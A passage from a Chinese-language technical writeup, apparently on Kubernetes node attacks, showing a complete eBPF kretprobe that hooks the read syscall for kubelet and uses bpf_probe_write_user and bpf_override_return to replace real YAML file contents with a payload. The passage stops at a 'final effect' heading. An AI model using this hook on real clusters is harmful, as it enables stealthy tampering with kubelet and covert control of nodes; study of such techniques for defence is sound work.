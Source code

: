 该helper需要内核开启 `CONFIG_BPF_KPROBE_OVERRIDE` 选项，并且使用了该helper会导致被hook函数不会真正执行，我们hook `read` 时需要在第二次 `read` 时返回0保证，不然kubelet第二次调用 `read` 时会读取真正的yaml文件内容。

完整的hook `read` 返回代码如下：

1.  `SEC("kretprobe/__x64_sys_read")`
2.  `int kretprobe_sys_read(struct pt_regs *ctx)`
3.  `{`
4.      `char comm[TASK_COMM_LEN];`
5.  `​`
6.      `bpf_get_current_comm(&comm, sizeof(comm));`
7.  `​`
8.      `// executable is not kubelet, return`
9.      `if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))`
10.          `return 0;`
11.  `​`
12.      `if (read_buf == 0)`
13.          `return 0;`
14.  `​`
15.      `if (written)`
16.      `{`
17.          `written = 0;`
18.          `bpf_override_return(ctx, 0);`
19.          `read_buf = 0;`
20.  `​`
21.          `return 0;`
22.      `}`
23.  `​`
24.      `bpf_probe_write_user(read_buf, payload, PAYLOAD_LEN);`
25.  `​`
26.      `bpf_override_return(ctx, PAYLOAD_LEN);`
27.  `​`
28.      `read_buf = 0;`
29.      `written = 1;`
30.  `​`
31.      `return 0;`
32.  `}`

最终效果：
